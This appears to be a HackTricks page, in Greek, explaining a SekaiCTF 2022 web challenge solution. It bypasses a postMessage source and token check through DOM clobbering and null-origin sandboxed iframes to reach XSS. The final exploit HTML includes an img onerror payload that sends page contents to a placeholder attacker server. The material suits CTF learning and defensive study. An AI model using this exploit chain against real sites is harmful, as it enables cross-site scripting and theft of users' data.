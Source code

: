 # Bypassing SOP with Iframes - 2

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-2

Στη [**λύση**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) για αυτήν την [**πρόκληση**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic_) προτείνει μια παρόμοια μέθοδο με την προηγούμενη ενότητα. Ας το ελέγξουμε.

Σε αυτήν την πρόκληση, ο επιτιθέμενος πρέπει να **bypass** αυτό:
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
Αν το κάνει, μπορεί να στείλει ένα **postmessage** με περιεχόμενο HTML που θα γραφτεί στη σελίδα με **`innerHTML`** χωρίς καθαρισμό (**XSS**).

Ο τρόπος για να παρακάμψετε τον **πρώτο έλεγχο** είναι να κάνετε το **`window.calc.contentWindow`** **`undefined`** και το **`e.source`** **`null`**:

- Το **`window.calc.contentWindow`** είναι στην πραγματικότητα **`document.getElementById("calc")`**. Μπορείτε να καταστρέψετε το **`document.getElementById`** με **`<img name=getElementById />`** (σημειώστε ότι το Sanitizer API -[εδώ](https://wicg.github.io/sanitizer-api/#dom-clobbering)- δεν είναι ρυθμισμένο για να προστατεύει από επιθέσεις DOM clobbering στην προεπιλεγμένη του κατάσταση).
- Επομένως, μπορείτε να καταστρέψετε το **`document.getElementById("calc")`** με **`<img name=getElementById /><div id=calc></div>`**. Τότε, το **`window.calc`** θα είναι **`undefined`**.
- Τώρα, χρειαζόμαστε το **`e.source`** να είναι **`undefined`** ή **`null`** (επειδή χρησιμοποιείται το `==` αντί για το `===`, **`null == undefined`** είναι **`True`**). Το να το αποκτήσετε είναι "εύκολο". Αν δημιουργήσετε ένα **iframe** και **στείλετε** ένα **postMessage** από αυτό και αμέσως **αφαιρέσετε** το iframe, το **`e.origin`** θα είναι **`null`**. Ελέγξτε τον παρακάτω κώδικα
```javascript
let iframe = document.createElement("iframe")
document.body.appendChild(iframe)
window.target = window.open("http://localhost:8080/")
await new Promise((r) => setTimeout(r, 2000)) // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`)
document.body.removeChild(iframe) //e.origin === null
```
Για να παρακαμφθεί ο **δεύτερος έλεγχος** σχετικά με το token, στέλνουμε **`token`** με τιμή `null` και κάνουμε την τιμή **`window.token`** **`undefined`**:

- Η αποστολή του `token` στο postMessage με τιμή `null` είναι απλή.
- **`window.token`** κατά την κλήση της συνάρτησης **`getCookie`** που χρησιμοποιεί **`document.cookie`**. Σημειώστε ότι οποιαδήποτε πρόσβαση στο **`document.cookie`** σε σελίδες με **`null`** προέλευση προκαλεί ένα **σφάλμα**. Αυτό θα κάνει την **`window.token`** να έχει τιμή **`undefined`**.

Η τελική λύση από [**@terjanq**](https://twitter.com/terjanq) είναι η [**εξής**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open(
'https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"'
)

function start() {
var ifr = document.createElement("iframe")
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = "allow-scripts allow-popups"
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr)

function hack() {
var win = open("https://obligatory-calc.ctf.sekai.team")
setTimeout(() => {
parent.postMessage("remove", "*")
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage(
{
token: null,
result:
"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>",
},
"*"
)
}, 1000)
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = (e) => {
if (e.data == "remove") document.body.innerHTML = ""
}
}
setTimeout(start, 1000)
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
